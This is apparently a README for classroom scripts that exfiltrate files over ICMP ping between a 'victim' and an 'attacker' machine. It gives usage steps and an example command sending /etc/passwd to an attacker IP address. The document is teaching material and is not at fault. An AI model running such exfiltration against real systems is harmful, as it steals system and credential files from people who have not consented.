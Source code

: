## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM** the **VICTIM** machine over ping.   
- listen.sh: This runs the tcpdump command and produces the output (data.dmp)  
- pyarray.py: This program parses through data.dmp file.  
- rebuild.sh: This script runs pyarray, produces hexout, and prints the recieved file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
''' 
./listen.sh  
'''

Copy exfil.sh to the VICTIM MACHINE  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
'''
./exfil.sh /etc/passwd 192.168.14.5
'''

Stop listen.sh with CTRL-C on the ATTACKER machine.  
(You should see a file called data.dmp) --tcpdump output of all ping requests heard from the victim.  

Run  
'''
./rebuild.sh 
'''
The file sent from the attacker will be printed in plain text.  




